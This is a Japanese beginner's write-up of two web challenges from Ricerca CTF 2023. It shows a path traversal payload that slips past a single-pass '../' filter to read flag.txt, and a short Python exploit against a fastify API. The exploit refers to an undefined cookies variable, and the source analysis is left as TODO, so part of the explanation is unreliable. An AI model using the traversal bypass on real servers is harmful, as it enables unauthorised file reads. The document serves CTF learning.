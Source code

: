```yaml
---
title: "Ricerca CTF writeup - Web初心者の備忘録"
emoji: "❓"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["CTF", "Web"]
published: true
---
```


## はじめに
Ricerca CTF 2023お疲れさまでした。
運営の皆様、参加者の皆様、ありがとうございました。

さて、自分はWeb初心者、CTFほとんど初参加という形でしたが、Web問を二個解けたため、その備忘録と考察を書いていきます。

## 解いたもの

 - Cat Cafe
   - 簡単なFLI問題
 - tinyDB
   - 連想配列で作られたDBの問題

## それぞれの解説

### Cat Cafe

この問題のバックエンドはflaskです。
この問題では、まず以下のようなページが表示されます。

![](/images/cat.png)

ここで猫の画像を右クリックで開くと、以下のようなURLに飛びます。
```url
http://cat-cafe.2023.ricercactf.com:8000/img?f=01.jpg
```

ここで問題のソースコードを読むと、ユーザのクエリを
```py
filename = flask.request.args.get("f", "").replace("../", "")
```
という形で受け付けているのがわかります。
`../`が置換されるため、`....//`というクエリを投げれば`../`に置換されます。

したがって、
```url
http://cat-cafe.2023.ricercactf.com:8000/img?f=....//flag.txt
```

というリクエストを投げると、flagが表示されます。

### tinyDB

この問題のバックエンドはfastifyです。
この問題では、まず以下のようなページが表示されます。

![](/images/tiny.png)

バックエンドはAPIで用意されているため、APIを抜き出すと以下の通りです。

```url
http://tinydb.2023.ricercactf.com:8888/set_user
http://tinydb.2023.ricercactf.com:8888/get_flag
```

それぞれのAPIについて、以下のような挙動を確認しました。

#### set_user

リクエスト
```json
{
    "username": "admin",
    "password": "dummy"
}
```
レスポンス
```
{
    "authId": "admin",
    "authPW": "dummy",
    "grade": "guest"
}
```

#### get_flag

リクエスト
```json
{
    "username": "admin",
    "password": "dummy"
}
```
レスポンス
```
{"flag":"no flag for you :)"}
```



このうち、set_userではユーザの作成、get_flagではユーザの権限テストを主に行っていると推測しました。

ここで問題のソースコードを確認します。
(TODO: 追記)

ここで、作成したエクスプロイトコードを先に掲載します。

```py
import requests
import random 

session = requests.session()

for i in range(10):
    json_data = {
        'username': "admin",
        'password': "dummy",
    }

    res = session.post("http://tinydb.2023.ricercactf.com:8888/set_user", json=json_data, cookies=cookies)
    print(res.text)
    print(res.cookies)
    
    
json_data = {
    'username': 'admin',
    'password': "********************************",
}
res = session.post("http://tinydb.2023.ricercactf.com:8888/get_flag", json=json_data, cookies=cookies)
print(res.text)
print(res.cookies)
```


(TODO: 追記)